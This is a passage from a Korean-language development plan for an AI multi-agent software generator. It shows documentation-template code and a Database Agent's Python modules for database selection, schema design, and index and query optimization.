- `__tests__/e2e/` - End-to-end tests
- `__tests__/fixtures/` - Test fixtures
- `__tests__/utils/` - Test utilities

## Deployment

### Using Docker

```bash
# Build image
docker build -t {backend_code.project_name} .

# Run container
docker run -p 3000:3000 {backend_code.project_name}
```

### Using Kubernetes

```bash
# Apply manifests
kubectl apply -f k8s/

# Check deployment
kubectl get pods -n {backend_code.project_name}
```

### CI/CD

This project uses GitHub Actions for CI/CD. See `.github/workflows/` for pipeline configuration.

## Monitoring

- Health check: `/health`
- Metrics: `/metrics` (Prometheus format)
- Logs: Structured JSON logging to stdout

## Contributing

Please read [CONTRIBUTING.md](CONTRIBUTING.md) for details on our code of conduct and the process for submitting pull requests.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
"""

class ArchitectureDocumentationGenerator:
"""아키텍처 문서 생성기"""

    async def generate_architecture_docs(
        self,
        architecture: ArchitectureDesign,
        backend_code: BackendCodeStructure
    ) -> str:
        """아키텍처 문서 생성"""

        return f"""

# Architecture Documentation

## System Architecture

### Overview

{architecture.description}

### Architecture Pattern

- **Pattern**: {architecture.pattern} (Layered Architecture)
- **Style**: {architecture.style}

### System Components



## Layered Architecture

### Presentation Layer

- **Controllers**: Handle HTTP requests and responses
- **Middleware**: Authentication, validation, error handling
- **Routes**: API endpoint definitions

### Business Logic Layer

- **Services**: Core business logic implementation
- **Domain Models**: Business entities and rules
- **Use Cases**: Application-specific business rules

### Data Access Layer

- **Repositories**: Data access abstraction
- **Models**: Database schema definitions
- **Migrations**: Database version control

### Infrastructure Layer

- **External Services**: Third-party integrations
- **Message Queue**: Asynchronous processing
- **Cache**: Performance optimization
- **Monitoring**: Logging, metrics, tracing

## Design Patterns

### Repository Pattern

Used for abstracting data access logic:

```typescript
interface Repository<T> {{
  findById(id: string): Promise<T | null>;
  findMany(params: QueryParams): Promise<Paginated<T>>;
  create(data: CreateDto<T>): Promise<T>;
  update(id: string, data: UpdateDto<T>): Promise<T>;
  delete(id: string): Promise<void>;
}}
```

### Service Layer Pattern

Business logic encapsulation:

```typescript
class UserService {{
  constructor(
    private userRepository: UserRepository,
    private emailService: EmailService,
    private eventBus: EventBus
  ) {{}}

  async createUser(data: CreateUserDto): Promise<User> {{
    // Business logic here
  }}
}}
```

### Factory Pattern

Object creation logic:

```typescript
class NotificationFactory {{
  static create(type: NotificationType, data: any): Notification {{
    switch(type) {{
      case 'email': return new EmailNotification(data);
      case 'sms': return new SMSNotification(data);
      case 'push': return new PushNotification(data);
    }}
  }}
}}
```

## Security Architecture

### Authentication Flow



### Authorization

- **RBAC**: Role-Based Access Control
- **Permissions**: Fine-grained resource permissions
- **JWT**: Stateless authentication tokens

## Data Architecture

### Database Schema

{self.\_generate_database_schema_diagram(backend_code)}

### Caching Strategy

- **Cache-Aside**: Read-through caching for frequently accessed data
- **Write-Through**: Update cache on writes for critical data
- **TTL**: Time-based expiration for temporal data

### Data Flow



## Scalability Considerations

### Horizontal Scaling

- Stateless services
- Load balancing with sticky sessions for WebSocket
- Database read replicas
- Distributed caching

### Performance Optimizations

- Query optimization with indexes
- Batch processing for bulk operations
- Async processing with message queues
- Response compression

## Deployment Architecture

### Container Architecture

- Docker containers for all services
- Docker Compose for local development
- Kubernetes for production deployment

### Infrastructure

```yaml
Production:
  - Load Balancer: AWS ALB
  - Compute: EKS (Kubernetes)
  - Database: RDS PostgreSQL (Multi-AZ)
  - Cache: ElastiCache Redis
  - Storage: S3
  - CDN: CloudFront
  - Monitoring: CloudWatch + Prometheus
```

## Monitoring and Observability

### Metrics

- Application metrics (Prometheus)
- Infrastructure metrics (CloudWatch)
- Custom business metrics

### Logging

- Structured JSON logging
- Centralized log aggregation (ELK Stack)
- Log levels: ERROR, WARN, INFO, DEBUG

### Tracing

- Distributed tracing (Jaeger)
- Request correlation IDs
- Performance profiling
  """

````

**검증 기준**:
- [ ] OpenAPI 3.0 명세 생성
- [ ] 상세 코드 문서화
- [ ] 아키텍처 다이어그램
- [ ] 배포 가이드 자동 생성

**Phase 4 완료 체크리스트**:
- [ ] Backend Agent 핵심 기능 구현
- [ ] 마이크로서비스 지원
- [ ] 실시간 기능 구현
- [ ] 완전한 테스트 자동화
- [ ] 포괄적인 문서화 시스템

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 9 (Tasks 4.17-4.18)

## 5. Database Agent (데이터베이스 설계 에이전트)

### Task 4.17: Database Agent 코어 구현

#### SubTask 4.17.1: 데이터베이스 설계 엔진
**담당자**: 데이터베이스 아키텍트
**예상 소요시간**: 14시간

**작업 내용**:
```python
# backend/src/agents/implementations/database_agent.py
from typing import Dict, List, Optional, Any, Tuple
from dataclasses import dataclass
from enum import Enum
import asyncio
from agno.agent import Agent
from agno.models.aws import AwsBedrock

@dataclass
class DatabaseDesign:
    database_type: str  # 'postgresql', 'mysql', 'mongodb', 'dynamodb', etc.
    schema: DatabaseSchema
    indexes: List[IndexDefinition]
    constraints: List[ConstraintDefinition]
    migrations: List[MigrationFile]
    seed_data: Optional[SeedDataScript]
    optimization_recommendations: List[OptimizationRecommendation]
    backup_strategy: BackupStrategy
    monitoring_setup: MonitoringConfiguration

@dataclass
class DatabaseSchema:
    tables: List[TableDefinition]
    relationships: List[RelationshipDefinition]
    views: List[ViewDefinition]
    stored_procedures: List[StoredProcedure]
    triggers: List[TriggerDefinition]
    functions: List[FunctionDefinition]

class DatabaseType(Enum):
    POSTGRESQL = "postgresql"
    MYSQL = "mysql"
    MONGODB = "mongodb"
    DYNAMODB = "dynamodb"
    REDIS = "redis"
    ELASTICSEARCH = "elasticsearch"
    CASSANDRA = "cassandra"
    NEO4J = "neo4j"

class DatabaseAgent:
    """데이터베이스 설계 및 구현 에이전트"""

    def __init__(self):
        self.designer = Agent(
            name="Database-Designer",
            model=AwsBedrock(id="anthropic.claude-3-sonnet-v2:0"),
            role="Expert database architect specializing in scalable data models",
            instructions=[
                "Design optimal database schemas based on requirements",
                "Choose appropriate database types for different use cases",
                "Implement proper normalization and denormalization strategies",
                "Create efficient indexes and query optimization",
                "Design for scalability and performance",
                "Implement data integrity and security best practices",
                "Generate migration scripts and seed data"
            ],
            temperature=0.2
        )

        self.schema_designer = SchemaDesigner()
        self.database_selector = DatabaseSelector()
        self.index_optimizer = IndexOptimizer()
        self.migration_generator = MigrationGenerator()
        self.query_optimizer = QueryOptimizer()
        self.security_implementer = DatabaseSecurityImplementer()

    async def design_database(
        self,
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        expected_load: LoadExpectations,
        compliance_requirements: Optional[ComplianceRequirements] = None
    ) -> DatabaseDesign:
        """데이터베이스 전체 설계"""

        # 1. 데이터베이스 타입 선택
        db_type = await self._select_database_type(
            requirements,
            domain_models,
            expected_load
        )

        # 2. 스키마 설계
        schema = await self._design_schema(
            domain_models,
            db_type,
            requirements
        )

        # 3. 인덱스 설계
        indexes = await self._design_indexes(
            schema,
            expected_load,
            db_type
        )

        # 4. 제약조건 설계
        constraints = await self._design_constraints(
            schema,
            requirements,
            compliance_requirements
        )

        # 5. 마이그레이션 생성
        migrations = await self._generate_migrations(
            schema,
            db_type
        )

        # 6. 시드 데이터 생성
        seed_data = await self._generate_seed_data(
            schema,
            requirements
        )

        # 7. 최적화 권장사항
        optimizations = await self._generate_optimizations(
            schema,
            indexes,
            expected_load
        )

        # 8. 백업 전략
        backup_strategy = await self._design_backup_strategy(
            db_type,
            requirements,
            compliance_requirements
        )

        # 9. 모니터링 설정
        monitoring = await self._setup_monitoring(
            db_type,
            schema
        )

        return DatabaseDesign(
            database_type=db_type,
            schema=schema,
            indexes=indexes,
            constraints=constraints,
            migrations=migrations,
            seed_data=seed_data,
            optimization_recommendations=optimizations,
            backup_strategy=backup_strategy,
            monitoring_setup=monitoring
        )

    async def _select_database_type(
        self,
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        expected_load: LoadExpectations
    ) -> str:
        """최적의 데이터베이스 타입 선택"""

        analysis_prompt = f"""
        Analyze the following requirements and recommend the best database type:

        Project Type: {requirements.project_type}
        Domain Models: {[m.name for m in domain_models]}
        Expected Load: {expected_load.concurrent_users} concurrent users
        Read/Write Ratio: {expected_load.read_write_ratio}
        Data Volume: {expected_load.data_volume}

        Key Requirements:
        - {requirements.non_functional_requirements}

        Consider:
        1. Data structure (relational vs document vs graph)
        2. Scalability requirements
        3. Consistency requirements
        4. Query complexity
        5. Performance needs
        """

        recommendation = await self.designer.arun(analysis_prompt)

        # 데이터베이스 선택 로직
        selection_result = await self.database_selector.select(
            requirements,
            domain_models,
            expected_load,
            self._parse_ai_recommendation(recommendation)
        )

        return selection_result.database_type

class DatabaseSelector:
    """데이터베이스 선택 엔진"""

    DATABASE_CHARACTERISTICS = {
        DatabaseType.POSTGRESQL: {
            'type': 'relational',
            'consistency': 'strong',
            'scalability': 'vertical_primary',
            'use_cases': ['complex_queries', 'transactions', 'relational_data', 'json_support'],
            'strengths': ['ACID', 'complex_queries', 'extensions', 'json/jsonb'],
            'weaknesses': ['horizontal_scaling', 'very_high_write_throughput']
        },
        DatabaseType.MYSQL: {
            'type': 'relational',
            'consistency': 'strong',
            'scalability': 'vertical_primary',
            'use_cases': ['web_applications', 'simple_queries', 'read_heavy'],
            'strengths': ['performance', 'replication', 'widespread_support'],
            'weaknesses': ['complex_queries', 'json_support']
        },
        DatabaseType.MONGODB: {
            'type': 'document',
            'consistency': 'eventual',
            'scalability': 'horizontal',
            'use_cases': ['flexible_schema', 'document_data', 'real_time', 'catalogs'],
            'strengths': ['flexibility', 'horizontal_scaling', 'developer_friendly'],
            'weaknesses': ['transactions', 'complex_joins', 'consistency']
        },
        DatabaseType.DYNAMODB: {
            'type': 'key_value',
            'consistency': 'eventual',
            'scalability': 'horizontal',
            'use_cases': ['serverless', 'simple_queries', 'high_throughput', 'gaming'],
            'strengths': ['managed', 'scalability', 'performance', 'serverless'],
            'weaknesses': ['query_flexibility', 'cost', 'vendor_lock']
        },
        DatabaseType.REDIS: {
            'type': 'key_value',
            'consistency': 'eventual',
            'scalability': 'horizontal',
            'use_cases': ['caching', 'sessions', 'real_time', 'queues'],
            'strengths': ['speed', 'data_structures', 'pub_sub'],
            'weaknesses': ['persistence', 'memory_cost', 'complex_queries']
        },
        DatabaseType.ELASTICSEARCH: {
            'type': 'search',
            'consistency': 'eventual',
            'scalability': 'horizontal',
            'use_cases': ['full_text_search', 'analytics', 'logging', 'time_series'],
            'strengths': ['search', 'analytics', 'scalability'],
            'weaknesses': ['not_primary_datastore', 'complexity']
        },
        DatabaseType.NEO4J: {
            'type': 'graph',
            'consistency': 'strong',
            'scalability': 'vertical_primary',
            'use_cases': ['relationships', 'recommendations', 'social_networks', 'knowledge_graphs'],
            'strengths': ['graph_queries', 'relationships', 'cypher_query'],
            'weaknesses': ['non_graph_queries', 'horizontal_scaling']
        }
    }

    async def select(
        self,
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        expected_load: LoadExpectations,
        ai_recommendation: Dict[str, Any]
    ) -> DatabaseSelectionResult:
        """데이터베이스 선택"""

        scores = {}

        for db_type, characteristics in self.DATABASE_CHARACTERISTICS.items():
            score = await self._calculate_database_score(
                db_type,
                characteristics,
                requirements,
                domain_models,
                expected_load
            )
            scores[db_type] = score

        # 최고 점수 데이터베이스 선택
        selected_db = max(scores.items(), key=lambda x: x[1]['total'])[0]

        # 하이브리드 접근 필요 여부 확인
        if self._needs_hybrid_approach(scores, requirements):
            return self._design_hybrid_architecture(scores, requirements)

        return DatabaseSelectionResult(
            database_type=selected_db.value,
            reasoning=self._generate_selection_reasoning(selected_db, scores),
            alternatives=self._get_alternatives(scores, selected_db),
            hybrid_recommendation=None
        )

    async def _calculate_database_score(
        self,
        db_type: DatabaseType,
        characteristics: Dict[str, Any],
        requirements: ProjectRequirements,
        domain_models: List[DomainModel],
        expected_load: LoadExpectations
    ) -> Dict[str, float]:
        """데이터베이스 점수 계산"""

        scores = {
            'data_model_fit': 0.0,
            'scalability': 0.0,
            'performance': 0.0,
            'consistency': 0.0,
            'features': 0.0,
            'ecosystem': 0.0,
            'cost': 0.0
        }

        # 데이터 모델 적합성
        if self._is_relational_data(domain_models) and characteristics['type'] == 'relational':
            scores['data_model_fit'] = 1.0
        elif self._is_document_data(domain_models) and characteristics['type'] == 'document':
            scores['data_model_fit'] = 0.9
        elif self._is_graph_data(domain_models) and characteristics['type'] == 'graph':
            scores['data_model_fit'] = 1.0
        else:
            scores['data_model_fit'] = 0.5

        # 확장성
        if expected_load.requires_horizontal_scaling() and characteristics['scalability'] == 'horizontal':
            scores['scalability'] = 1.0
        elif not expected_load.requires_horizontal_scaling() and characteristics['scalability'] == 'vertical_primary':
            scores['scalability'] = 0.8
        else:
            scores['scalability'] = 0.4

        # 성능
        if expected_load.read_write_ratio > 5 and 'read_heavy' in characteristics['use_cases']:
            scores['performance'] = 0.9
        elif expected_load.read_write_ratio < 0.5 and 'high_throughput' in characteristics['use_cases']:
            scores['performance'] = 0.9
        else:
            scores['performance'] = 0.7

        # 일관성 요구사항
        if requirements.requires_strong_consistency() and characteristics['consistency'] == 'strong':
            scores['consistency'] = 1.0
        elif not requirements.requires_strong_consistency() and characteristics['consistency'] == 'eventual':
            scores['consistency'] = 0.9
        else:
            scores['consistency'] = 0.3

        # 기능 요구사항
        feature_match = sum(1 for use_case in characteristics['use_cases']
                          if self._matches_requirement(use_case, requirements))
        scores['features'] = min(feature_match / 3, 1.0)

        # 에코시스템
        scores['ecosystem'] = self._calculate_ecosystem_score(db_type, requirements)

        # 비용
        scores['cost'] = self._calculate_cost_score(db_type, expected_load)

        # 가중치 적용
        weights = {
            'data_model_fit': 0.25,
            'scalability': 0.20,
            'performance': 0.20,
            'consistency': 0.15,
            'features': 0.10,
            'ecosystem': 0.05,
            'cost': 0.05
        }

        scores['total'] = sum(scores[key] * weights[key] for key in weights)

        return scores

class SchemaDesigner:
    """스키마 설계 엔진"""

    async def design_schema(
        self,
        domain_models: List[DomainModel],
        db_type: str,
        requirements: ProjectRequirements
    ) -> DatabaseSchema:
        """데이터베이스 스키마 설계"""

        if db_type in ['postgresql', 'mysql']:
            return await self._design_relational_schema(domain_models, requirements)
        elif db_type == 'mongodb':
            return await self._design_document_schema(domain_models, requirements)
        elif db_type == 'dynamodb':
            return await self._design_key_value_schema(domain_models, requirements)
        elif db_type == 'neo4j':
            return await self._design_graph_schema(domain_models, requirements)
        else:
            raise ValueError(f"Unsupported database type: {db_type}")

    async def _design_relational_schema(
        self,
        domain_models: List[DomainModel],
        requirements: ProjectRequirements
    ) -> DatabaseSchema:
        """관계형 데이터베이스 스키마 설계"""

        tables = []
        relationships = []

        # 도메인 모델을 테이블로 변환
        for model in domain_models:
            table = await self._create_table_from_model(model)
            tables.append(table)

        # 관계 설정
        for model in domain_models:
            model_relationships = await self._extract_relationships(model, domain_models)
            relationships.extend(model_relationships)

        # 정규화 수준 결정
        normalization_level = self._determine_normalization_level(requirements)

        # 정규화/비정규화 적용
        if normalization_level >= 3:
            tables = await self._normalize_tables(tables, relationships, normalization_level)
        else:
            tables = await self._denormalize_for_performance(tables, relationships)

        # 뷰 생성
        views = await self._create_views(tables, requirements)

        # 저장 프로시저 생성
        procedures = await self._create_stored_procedures(tables, requirements)

        return DatabaseSchema(
            tables=tables,
            relationships=relationships,
            views=views,
            stored_procedures=procedures,
            triggers=[],
            functions=[]
        )

    async def _create_table_from_model(self, model: DomainModel) -> TableDefinition:
        """도메인 모델에서 테이블 생성"""

        columns = []

        # ID 필드 추가
        columns.append(ColumnDefinition(
            name="id",
            data_type="UUID",
            nullable=False,
            primary_key=True,
            default="gen_random_uuid()"
        ))

        # 모델 속성을 컬럼으로 변환
        for attribute in model.attributes:
            column = ColumnDefinition(
                name=self._to_snake_case(attribute.name),
                data_type=self._map_data_type(attribute.type),
                nullable=attribute.nullable,
                primary_key=False,
                unique=attribute.unique,
                default=attribute.default,
                check_constraint=self._generate_check_constraint(attribute)
            )
            columns.append(column)

        # 감사 필드 추가
        if model.requires_audit:
            columns.extend([
                ColumnDefinition(
                    name="created_at",
                    data_type="TIMESTAMP",
                    nullable=False,
                    default="CURRENT_TIMESTAMP"
                ),
                ColumnDefinition(
                    name="updated_at",
                    data_type="TIMESTAMP",
                    nullable=False,
                    default="CURRENT_TIMESTAMP"
                ),
                ColumnDefinition(
                    name="created_by",
                    data_type="UUID",
                    nullable=True,
                    foreign_key="users(id)"
                ),
                ColumnDefinition(
                    name="updated_by",
                    data_type="UUID",
                    nullable=True,
                    foreign_key="users(id)"
                )
            ])

        # 소프트 삭제 필드
        if model.soft_delete:
            columns.append(ColumnDefinition(
                name="deleted_at",
                data_type="TIMESTAMP",
                nullable=True
            ))

        return TableDefinition(
            name=self._to_snake_case(model.name) + "s",  # 복수형
            columns=columns,
            indexes=[],
            constraints=[],
            comment=f"Table for {model.name} entities"
        )
````

**검증 기준**:

- [ ] 다양한 데이터베이스 타입 지원
- [ ] 자동 스키마 설계
- [ ] 정규화/비정규화 전략
- [ ] 도메인 모델 기반 설계

#### SubTask 4.17.2: 인덱스 및 쿼리 최적화

**담당자**: 데이터베이스 성능 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/database_optimization.py
from typing import Dict, List, Optional, Any, Tuple
from dataclasses import dataclass
from enum import Enum

@dataclass
class IndexDefinition:
    name: str
    table: str
    columns: List[str]
    index_type: str  # 'btree', 'hash', 'gin', 'gist', 'brin'
    unique: bool
    partial: Optional[str]  # WHERE clause for partial index
    include_columns: Optional[List[str]]  # INCLUDE columns for covering index
    comment: str

@dataclass
class QueryOptimization:
    original_query: str
    optimized_query: str
    explanation: str
    performance_gain: float
    indexes_used: List[str]
    recommendations: List[str]

class IndexOptimizer:
    """인덱스 최적화 엔진"""

    def __init__(self):
        self.query_analyzer = QueryAnalyzer()
        self.workload_analyzer = WorkloadAnalyzer()
        self.index_advisor = IndexAdvisor()

    async def optimize_indexes(
        self,
        schema: DatabaseSchema,
        expected_queries: List[ExpectedQuery],
        workload: WorkloadProfile,
        db_type: str
    ) -> List[IndexDefinition]:
        """인덱스 최적화"""

        indexes = []

        # 1. 기본 인덱스 생성 (Primary Keys, Foreign Keys)
        basic_indexes = await self._create_basic_indexes(schema)
        indexes.extend(basic_indexes)

        # 2. 쿼리 패턴 분석
        query_patterns = await self.query_analyzer.analyze_patterns(expected_queries)

        # 3. 워크로드 기반 인덱스 추천
        workload_indexes = await self.workload_analyzer.recommend_indexes(
            schema,
            workload,
            query_patterns
        )
        indexes.extend(workload_indexes)

        # 4. 복합 인덱스 최적화
        composite_indexes = await self._optimize_composite_indexes(
            schema,
            query_patterns,
            db_type
        )
        indexes.extend(composite_indexes)

        # 5. 특수 인덱스 생성 (Full-text, Spatial, JSON)
        special_indexes = await self._create_special_indexes(
            schema,
            expected_queries,
            db_type
        )
        indexes.extend(special_indexes)

        # 6. 인덱스 중복 제거 및 최적화
        optimized_indexes = await self._optimize_index_set(indexes)

        return optimized_indexes

    async def _create_basic_indexes(
        self,
        schema: DatabaseSchema
    ) -> List[IndexDefinition]:
        """기본 인덱스 생성"""

        indexes = []

        for table in schema.tables:
            # Primary Key 인덱스 (자동 생성되지만 명시)
            pk_columns = [col.name for col in table.columns if col.primary_key]
            if pk_columns:
                indexes.append(IndexDefinition(
                    name=f"pk_{table.name}",
                    table=table.name,
                    columns=pk_columns,
                    index_type="btree",
                    unique=True,
                    partial=None,
                    include_columns=None,
                    comment=f"Primary key index for {table.name}"
                ))

            # Foreign Key 인덱스
            for column in table.columns:
                if column.foreign_key:
                    indexes.append(IndexDefinition(
                        name=f"idx_{table.name}_{column.name}",
                        table=table.name,
                        columns=[column.name],
                        index_type="btree",
                        unique=False,
                        partial=None,
                        include_columns=None,
                        comment=f"Foreign key index for {column.name}"
                    ))

            # Unique 제약조건 인덱스
            for column in table.columns:
                if column.unique and not column.primary_key:
                    indexes.append(IndexDefinition(
                        name=f"uniq_{table.name}_{column.name}",
                        table=table.name,
                        columns=[column.name],
                        index_type="btree",
                        unique=True,
                        partial=None,
                        include_columns=None,
                        comment=f"Unique constraint index for {column.name}"
                    ))

        return indexes

    async def _optimize_composite_indexes(
        self,
        schema: DatabaseSchema,
        query_patterns: List[QueryPattern],
        db_type: str
    ) -> List[IndexDefinition]:
        """복합 인덱스 최적화"""

        composite_indexes = []

        for pattern in query_patterns:
            if len(pattern.filter_columns) > 1:
                # 컬럼 순서 최적화
                column_order = await self._optimize_column_order(
                    pattern.filter_columns,
                    pattern.selectivity,
                    pattern.sort_columns
                )

                # Covering Index 여부 결정
                include_columns = None
                if db_type == 'postgresql' and pattern.select_columns:
                    # Covering index로 만들 수 있는 경우
                    non_key_columns = [
                        col for col in pattern.select_columns
                        if col not in column_order
                    ]
                    if len(non_key_columns) <= 3:  # INCLUDE 컬럼 제한
                        include_columns = non_key_columns

                # Partial Index 여부 결정
                partial_clause = None
                if pattern.common_predicates:
                    partial_clause = self._generate_partial_clause(
                        pattern.common_predicates
                    )

                index_name = f"idx_{pattern.table}_{('_').join(column_order[:3])}"

                composite_indexes.append(IndexDefinition(
                    name=index_name,
                    table=pattern.table,
                    columns=column_order,
                    index_type=self._select_index_type(pattern, db_type),
                    unique=False,
                    partial=partial_clause,
                    include_columns=include_columns,
                    comment=f"Composite index for query pattern: {pattern.description}"
                ))

        return composite_indexes

    async def _create_special_indexes(
        self,
        schema: DatabaseSchema,
        expected_queries: List[ExpectedQuery],
        db_type: str
    ) -> List[IndexDefinition]:
        """특수 인덱스 생성"""

        special_indexes = []

        # PostgreSQL 특수 인덱스
        if db_type == 'postgresql':
            # Full-text search indexes
            for table in schema.tables:
                text_columns = [
                    col for col in table.columns
                    if col.data_type in ['TEXT', 'VARCHAR'] and col.searchable
                ]

                if text_columns:
                    # GIN 인덱스 for full-text search
                    special_indexes.append(IndexDefinition(
                        name=f"idx_{table.name}_fts",
                        table=table.name,
                        columns=[f"to_tsvector('english', {' || '.join([col.name for col in text_columns])})"],
                        index_type="gin",
                        unique=False,
                        partial=None,
                        include_columns=None,
                        comment="Full-text search index"
                    ))

            # JSON/JSONB indexes
            for table in schema.tables:
                json_columns = [
                    col for col in table.columns
                    if col.data_type in ['JSON', 'JSONB']
                ]

                for col in json_columns:
                    # GIN index for JSONB
                    special_indexes.append(IndexDefinition(
                        name=f"idx_{table.name}_{col.name}_gin",
                        table=table.name,
                        columns=[col.name],
                        index_type="gin",
                        unique=False,
                        partial=None,
                        include_columns=None,
                        comment=f"GIN index for JSONB column {col.name}"
                    ))

                    # 특정 JSON 경로에 대한 인덱스
                    for query in expected_queries:
                        if query.uses_json_path(col.name):
                            path = query.get_json_path(col.name)
                            special_indexes.append(IndexDefinition(
                                name=f"idx_{table.name}_{col.name}_{path.replace('.', '_')}",
                                table=table.name,
                                columns=[f"({col.name}->>'{path}')"],
                                index_type="btree",
                                unique=False,
                                partial=None,
                                include_columns=None,
                                comment=f"Index on JSON path {path}"
                            ))

        return special_indexes

class QueryOptimizer:
    """쿼리 최적화 엔진"""

    def __init__(self):
        self.query_parser = QueryParser()
        self.execution_planner = ExecutionPlanner()
        self.statistics_analyzer = StatisticsAnalyzer()

    async def optimize_queries(
        self,
        queries: List[str],
        schema: DatabaseSchema,
        indexes: List[IndexDefinition],
        db_type: str
    ) -> List[QueryOptimization]:
        """쿼리 최적화"""

        optimizations = []

        for query in queries:
            # 쿼리 파싱
            parsed_query = await self.query_parser.parse(query, db_type)

            # 실행 계획 분석
            execution_plan = await self.execution_planner.analyze(
                parsed_query,
                schema,
                indexes
            )

            # 최적화 포인트 식별
            optimization_points = await self._identify_optimization_points(
                parsed_query,
                execution_plan
            )

            # 쿼리 재작성
            optimized_query = await self._rewrite_query(
                parsed_query,
                optimization_points,
                db_type
            )

            # 성능 개선 측정
            performance_gain = await self._estimate_performance_gain(
                query,
                optimized_query,
                execution_plan
            )

            optimizations.append(QueryOptimization(
                original_query=query,
                optimized_query=optimized_query,
                explanation=self._generate_optimization_explanation(optimization_points),
                performance_gain=performance_gain,
                indexes_used=self._extract_used_indexes(execution_plan),
                recommendations=await self._generate_recommendations(
                    parsed_query,
                    execution_plan
                )
            ))

        return optimizations

    async def _identify_optimization_points(
        self,
        parsed_query: ParsedQuery,
        execution_plan: ExecutionPlan
    ) -> List[OptimizationPoint]:
        """최적화 포인트 식별"""

        points = []

        # 1. 인덱스 미사용 스캔
        if execution_plan.has_full_table_scan():
            points.append(OptimizationPoint(
                type="missing_index",
                description="Full table scan detected",
                impact="high",
                solution="Add index on filter columns"
            ))

        # 2. 비효율적인 조인
        inefficient_joins = execution_plan.get_inefficient_joins()
        for join in inefficient_joins:
            points.append(OptimizationPoint(
                type="inefficient_join",
                description=f"Nested loop join on large tables: {join.tables}",
                impact="high",
                solution="Consider hash join or merge join"
            ))

        # 3. SELECT * 사용
        if parsed_query.uses_select_star():
            points.append(OptimizationPoint(
                type="select_star",
                description="SELECT * retrieves unnecessary columns",
                impact="medium",
                solution="Select only required columns"
            ))

        # 4. 서브쿼리 최적화
        if parsed_query.has_correlated_subquery():
            points.append(OptimizationPoint(
                type="correlated_subquery",
                description="Correlated subquery executes for each row",
                impact="high",
                solution="Rewrite as JOIN or use CTE"
            ))

        # 5. OR 조건 최적화
        if parsed_query.has_or_conditions():
            points.append(OptimizationPoint(
                type="or_condition",
                description="OR conditions prevent index usage",
                impact="medium",
                solution="Consider UNION or IN clause"
            ))

        # 6. 함수 사용으로 인한 인덱스 무효화
        if parsed_query.has_function_on_indexed_column():
            points.append(OptimizationPoint(
                type="function_on_column",
                description="Function on indexed column prevents index usage",
                impact="high",
                solution="Move function to the right side or use functional index"
            ))

        return points

    async def _rewrite_query(
        self,
        parsed_query: ParsedQuery,
        optimization_points: List[OptimizationPoint],
        db_type: str
    ) -> str:
        """쿼리 재작성"""

        rewritten_query = parsed_query.original_query

        for point in optimization_points:
            if point.type == "select_star":
                rewritten_query = self._replace_select_star(
                    rewritten_query,
                    parsed_query.required_columns
                )

            elif point.type == "correlated_subquery":
                rewritten_query = self._rewrite_correlated_subquery(
                    rewritten_query,
                    parsed_query
                )

            elif point.type == "or_condition":
                rewritten_query = self._rewrite_or_conditions(
                    rewritten_query,
                    parsed_query
                )

            elif point.type == "function_on_column":
                rewritten_query = self._rewrite_function_conditions(
                    rewritten_query,
                    parsed_query
                )

        # 데이터베이스별 최적화
        if db_type == 'postgresql':
            rewritten_query = await self._apply_postgresql_optimizations(rewritten_query)
        elif db_type == 'mysql':
            rewritten_query = await self._apply_mysql_optimizations(rewritten_query)

        return rewritten_query

    def _generate_optimization_explanation(
        self,
        optimization_points: List[OptimizationPoint]
    ) -> str:
        """최적화 설명 생성"""

        explanations = []

        for point in optimization_points:
            explanation = f"- {point.description}\n  Solution: {point.solution}"
            explanations.append(explanation)

        return "\n".join(explanations)

class WorkloadAnalyzer:
    """워크로드 분석 및 인덱스 추천"""

    async def recommend_indexes(
        self,
        schema: DatabaseSchema,
        workload: WorkloadProfile,
        query_patterns: List[QueryPattern]
    ) -> List[IndexDefinition]:
        """워크로드 기반 인덱스 추천"""

        recommendations = []

        # 1. 높은 빈도 쿼리에 대한 인덱스
        high_frequency_indexes = await self._analyze_high_frequency_queries(
            workload.query_frequency,
            query_patterns
        )
        recommendations.extend(high_frequency_indexes)

        # 2. 느린 쿼리에 대한 인덱스
        slow_query_indexes = await self._analyze_slow_queries(
            workload.slow_queries,
            schema
        )
        recommendations.extend(slow_query_indexes)

        # 3. 조인 성능 개선 인덱스
        join_indexes = await self._analyze_join_patterns(
            workload.join_patterns,
            schema
        )
        recommendations.extend(join_indexes)

        # 4. 정렬 성능 개선 인덱스
        sort_indexes = await self._analyze_sort_patterns(
            workload.sort_patterns,
            schema
        )
        recommendations.extend(sort_indexes)

        # 5. 집계 쿼리 최적화 인덱스
        aggregation_indexes = await self._analyze_aggregation_patterns(
            workload.aggregation_patterns,
            schema
        )
        recommendations.extend(aggregation_indexes)

        return self._prioritize_indexes(recommendations, workload)

    async def _analyze_high_frequency_queries(
        self,
        query_frequency: Dict[str, int],
        query_patterns: List[QueryPattern]
    ) -> List[IndexDefinition]:
        """고빈도 쿼리 분석"""

        indexes = []

        # 빈도순으로 정렬
        sorted_patterns = sorted(
            query_patterns,
            key=lambda p: query_frequency.get(p.query_hash, 0),
            reverse=True
        )

        # 상위 20% 쿼리에 대한 인덱스 생성
        top_patterns = sorted_patterns[:max(1, len(sorted_patterns) // 5)]

        for pattern in top_patterns:
            if pattern.estimated_cost > 1000:  # 비용이 높은 쿼리만
                index = IndexDefinition(
                    name=f"idx_{pattern.table}_freq_{pattern.query_hash[:8]}",
                    table=pattern.table,
                    columns=pattern.filter_columns + pattern.sort_columns,
                    index_type="btree",
                    unique=False,
                    partial=pattern.common_predicates,
                    include_columns=pattern.select_columns[:3],  # 최대 3개 컬럼
                    comment=f"High frequency query optimization (freq: {query_frequency.get(pattern.query_hash, 0)})"
                )
                indexes.append(index)

        return indexes
```

**검증 기준**:

- [ ] 지능형 인덱스 설계
- [ ] 쿼리 최적화 자동화
- [ ] 워크로드 기반 튜닝
- [ ] 다양한 인덱스 타입 지원

#### SubTask 4.17.3: 마이그레이션 및 버전 관리

**담당자**: 데이터베이스 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/database_migration.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass
from datetime import datetime
import hashlib

@dataclass
class MigrationFile:
    version: str
    name: str
    up_script: str
    down_script: str
    checksum: str
    dependencies: List[str]
    metadata: Dict[str, Any]

class MigrationGenerator:
    """데이터베이스 마이그레이션 생성기"""

    def __init__(self):
        self.sql_generator = SQLGenerator()
